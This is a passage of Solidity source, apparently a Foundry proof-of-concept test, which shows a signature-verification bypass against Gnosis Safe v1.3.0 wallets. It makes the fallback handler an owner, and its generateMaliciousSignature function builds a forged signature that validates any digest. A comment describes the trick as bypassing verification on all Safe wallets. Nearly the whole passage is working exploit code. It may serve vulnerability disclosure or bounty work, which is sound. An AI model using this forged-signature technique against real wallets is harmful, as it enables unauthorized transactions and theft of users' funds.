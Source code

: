```solidity
        safeV_1_3_0.execTransaction(
            address(safeV_1_3_0),
            nullUint,
            abi.encodeCall(IGnosisSafe.addOwnerWithThreshold, (COMPATIBILITY_FALLBACK_HANDLER, 1)),
            operation,
            nullUint,
            nullUint,
            nullUint,
            nullAddress,
            nullPayableAddress,
            sig
        );
        //assert handler address was added to owners array.
        assertTrue(safeV_1_3_0.isOwner(COMPATIBILITY_FALLBACK_HANDLER));

        //Demonstrates any digest will return true as if correctly signed by Safe user.
        //Note that `_randomDigest` is foundry fuzz output, hence can be any value. 
        // ================HENCE ANY VALUE / DIGEST WILL VERIFY. !!!!!==================//
        bool verified2 = address(safeV_1_3_0).isValidSignatureNow(bytes32(_randomDigest), malicioussignature); 
        //assert True for verification
        assertTrue(verified2);


    }

    /**
    @dev Function simply converts an addrress to bytes32 type so as to be encodePacked into r compartment of a signature.
     */
    function AddressToBytes(address _addr) private view returns(bytes32){
        return bytes32(uint256(uint160(_addr)));
    }

    /**
    @dev This function simply generates a malicious signature that bypasses the signature verification algorithm
    of all safe wallets. It encodes and Packs ehe following values at the ffg positions:
    `uint8(1)`                      --------> v
    `bytes32(address(handler))`     --------> r
    `bytes32(s)`                    --------> Doesnt matter the content of s. It still breaks
     */
    function generateMaliciousSignature() private returns (bytes memory) {
        uint8 v = uint8(1);
        bytes32 r = AddressToBytes(COMPATIBILITY_FALLBACK_HANDLER);
        bytes32 s;
        return abi.encodePacked(r, s, v);
    }

    //====Expecting this buys a LAMBO this Xmass. lol
}

```

